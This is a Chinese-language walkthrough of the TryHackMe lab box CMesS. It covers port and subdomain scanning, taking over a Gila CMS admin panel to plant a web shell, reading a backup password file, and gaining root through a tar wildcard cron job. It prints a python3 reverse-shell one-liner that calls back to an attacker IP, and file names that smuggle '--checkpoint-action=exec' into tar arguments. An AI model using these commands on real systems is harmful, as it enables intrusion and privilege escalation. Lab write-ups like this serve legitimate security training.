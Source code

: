 ```yaml
---
sidebar_position: 92
tags: [Easy, Linux, 通配符利用, 密码重用]
title: CMesS
description: CMesS
sidebar_label: CMesS
slug: /tryhackme/92
---
```

# CMesS
## 端口扫描

```bash
root@ip-10-10-248-76:~/cmess# nmap -sTCV -p 22,80 --min-rate 1000 10.10.120.159

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-14 09:00 BST
Nmap scan report for cmess.thm (10.10.120.159)
Host is up (0.00016s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:b6:52:d3:93:9a:38:50:b4:23:3b:fd:21:0c:05:1f (RSA)
|   256 21:c3:6e:31:8b:85:22:8a:6d:72:86:8f:ae:64:66:2b (ECDSA)
|_  256 5b:b9:75:78:05:d7:ec:43:30:96:17:ff:c6:a8:6c:ed (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: Gila CMS
| http-robots.txt: 3 disallowed entries 
|_/src/ /themes/ /lib/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: 02:A8:F1:2F:5B:99 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## 80 
根据题目给出我一个关于域我就猜到需要进行子域扫描, 所以我就先进行了子域的扫描

```bash
root@ip-10-10-248-76:~/cmess# ./gobuster vhost -u http://cmess.thm/  -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://cmess.thm/
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.cmess.thm Status: 200 [Size: 934]
```

扫描出一个子域进行查看在其中获取到一个账户:

![20240703221640](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703221640.png)

之后通过端口扫描我知道 80 的是一个 Gila  CMS , 所以直接进行登陆后台然后找上传点,结果我发现了模板编辑处, 这不就是和 wordpress 差不多了, 于是我修改了 index.php 文件的内容 (这里我们需要先跳转到对应的目录进行修改而不是所谓的模板目录)

```bash
http://vpn.cmess.thm/admin/fm?f=./index.php 
```
## 后渗透
### www-data

![20240703221658](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703221658.png)

### www-data —> andre
此时查看网站的配置信息我发现了一个用户的密码 , 但是无法破解成功, 

```bash
mysql> SELECT * FROM user;
+----+----------+-----------------+--------------------------------------------------------------+--------+------------+---------------------+---------------------+
| id | username | email           | pass                                                         | active | reset_code | created             | updated             |
+----+----------+-----------------+--------------------------------------------------------------+--------+------------+---------------------+---------------------+
|  1 | andre    | andre@cmess.thm | $2y$10$uNAA0MEze02jd.qU9tnYLu43bNo9nujltElcWEAcifNeZdk4bEsBa |      1 |            | 2020-02-06 18:20:34 | 2020-02-06 18:20:34 |
+----+----------+-----------------+--------------------------------------------------------------+--------+------------+---------------------+---------------------+
```

接着我尝试了搜寻, 结果在 opt 目录下发现一个隐藏文件这就是用户 andre 的密码

```bash
(remote) www-data@cmess:/opt$ ls -al
total 12
drwxr-xr-x  2 root root 4096 Feb  6  2020 .
drwxr-xr-x 22 root root 4096 Feb  6  2020 ..
-rwxrwxrwx  1 root root   36 Feb  6  2020 .password.bak
(remote) www-data@cmess:/opt$ cat .password.bak 
andres backup password
UQfsdCB7aAP6
(remote) www-data@cmess:/opt$ su andre 
Password: 
andre@cmess:/opt$ cd ~
```
### andre  —> root
查看定时任务我发现存在通配符利用漏洞

![20240703221723](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240703221723.png)

```bash
andre@cmess:~/backup$ cat << EOF  > root.sh
> python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.248.76",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
> EOF
andre@cmess:~/backup$  echo "" > "--checkpoint-action=exec=sh root.sh"
andre@cmess:~/backup$ echo "" > --checkpoint=1
andre@cmess:~/backup$ ls -al
total 24
drwxr-x--- 2 andre andre 4096 Sep 14 01:46 .
drwxr-x--- 4 andre andre 4096 Feb  9  2020 ..
-rw-rw-r-- 1 andre andre    1 Sep 14 01:46 --checkpoint=1
-rw-rw-r-- 1 andre andre    1 Sep 14 01:46 --checkpoint-action=exec=sh root.sh
-rwxr-x--- 1 andre andre   51 Feb  9  2020 note
-rw-rw-r-- 1 andre andre  227 Sep 14 01:46 root.sh
```

开启监听等待连接即可